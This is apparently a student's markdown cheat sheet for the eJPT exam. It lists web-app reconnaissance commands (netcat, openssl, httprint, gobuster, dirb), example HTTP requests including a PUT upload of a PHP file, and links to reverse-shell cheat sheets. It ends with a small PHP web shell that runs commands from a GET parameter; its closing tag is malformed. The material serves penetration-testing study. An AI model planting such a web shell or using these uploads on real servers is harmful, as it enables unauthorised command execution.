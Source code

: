 # Web Application Tools
 My list of Web Application tools for the eJPT exam.

-------------------------------------

## *HTTP Protocol and Fingerprinting*

1. Netcat
    * nc [targetAddress] 80

2. OpenSSL s_client -connect [targetAddress:443]

3. httprint -P0 -h [targetAddress] -s /usr/share/httprint/signatures.txt

-------------------------------------

## *HTTP Verbs - Use in Burpsuite*

### (Can be used on misconfigured web servers)

- GET - Request a webpage
- HEAD - Request Header information
- POST - Post form data (eg, username, password)
- PUT - Create an arbitrary file on the server
- DELETE - Delete/remove file from the server
- OPTIONS - Check communications option

"GET" Example:

    GET /page.php?comman=pwd HTTP/1.1
    Host: www.host.com


"POST" Example:

    POST /login.php? HTTP/1.1
    Host: www.host.com


    username=admin&password=1234


"DELETE" Example:

    DELETE /wp-content/imp.file HTTP/1.1
    Host: www.host.com

"PUT" Example: 
    
    $wc -m payload.php
    20 payload.php

    $nc [targetAddress] 80
    PUT /payload.php HTTP/1.0
    Content-type: text/html
    Content-length: 20


    <?php phpinfo(); ?>

-------------------------------------

## *Dirbuster(GUI)/Gobuster/Dirb*

* Search for interesting file types
    * php
    * txt
    * bak
    * old

    $gobuster dir --url http://host.com/ -w /path/to/word.list -x php,txt,old,bak -o output.txt

    $dirb http://host.com/ /path/to/word.list -X php,txt,bak,old -o output.txt

    $dirb https://host.com/ (Simple SSL test)

*Tips: Searh for **Signup pages** and **old configuration files.***






-------------------------------------

## *Reverse Shell Links*

[Pentest Monkey Website] (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[GTFOBins Website] (https://gtfobins.github.io/)


Example PHP Reverse Shell:

    <?php 
    if (isset($_GET['cmd']))
    {
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
    }
    >

